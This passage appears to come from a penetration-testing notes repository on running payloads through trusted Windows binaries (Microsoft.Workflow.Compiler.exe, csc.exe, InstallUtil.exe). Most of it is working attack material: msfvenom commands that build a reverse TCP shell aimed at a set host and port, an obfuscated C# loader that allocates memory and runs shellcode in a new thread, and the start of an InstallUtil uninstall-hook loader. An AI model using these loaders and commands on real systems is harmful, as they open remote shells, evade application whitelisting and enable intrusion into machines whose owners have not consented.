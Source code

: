 ```csharp
catch (Exception err) { }
}
} 
}
```
	>msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f csharp
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe 1.xml 1.cs
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/130.png)
```csharp
using System.Workflow.Activities;
using System.Net; 
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.Threading;
class yrDaTlg : SequentialWorkflowActivity {
[DllImport("kernel32")] private static extern IntPtr VirtualAlloc(UInt32 rCfMkmxRSAakg,UInt32 qjRsrljIMB, UInt32 peXiTuE, UInt32 AkpADfOOAVBZ);
[DllImport("kernel32")] public static extern bool VirtualProtect(IntPtr DStOGXQMMkP, uint CzzIpcuQppQSTBJ, uint JCFImGhkRqtwANx, out uint exgVpSg);
[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 eisuQbXKYbAvA, UInt32 WQATOZaFz, IntPtr AEGJQOn,IntPtr SYcfyeeSgPl, UInt32 ZSheqBwKtDf, ref UInt32 SZtdSB);
[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr KqJNFlHpsKOV, UInt32 EYBOArlCLAM);
public yrDaTlg() {
byte[] QWKpWKhcs =
{SHELLCODE
};
IntPtr AmnGaO = VirtualAlloc(0, (UInt32)QWKpWKhcs.Length, 0x3000, 0x04);
Marshal.Copy(QWKpWKhcs, 0, (IntPtr)(AmnGaO), QWKpWKhcs.Length);
IntPtr oXmoNUYvivZlXj = IntPtr.Zero; UInt32 XVXTOi = 0; IntPtr pAeCTfwBS = IntPtr.Zero;
uint BnhanUiUJaetgy;
bool iSdNUQK = VirtualProtect(AmnGaO, (uint)0x1000, (uint)0x20, out BnhanUiUJaetgy);
oXmoNUYvivZlXj = CreateThread(0, 0, AmnGaO, pAeCTfwBS, 0, ref XVXTOi);
WaitForSingleObject(oXmoNUYvivZlXj, 0xFFFFFFFF);}
}

```
  #### Csc
	>msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f csharp
	>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out: C:\Users\y\Desktop\shell.exe /platform:x64 /unsafe C:\Users\y\Desktop\shell.cs
	>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\y\Desktop\shell.exe
```csharp
using System;
using System.Net;
using System.Diagnostics;
using System.Reflection;
using System.Configuration.Install;
using System.Runtime.InteropServices; 
public class Program
{
public static void Main()
{
}
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
public override void Uninstall(System.Collections.IDictionary savedState)
{
Shellcode.Exec();
```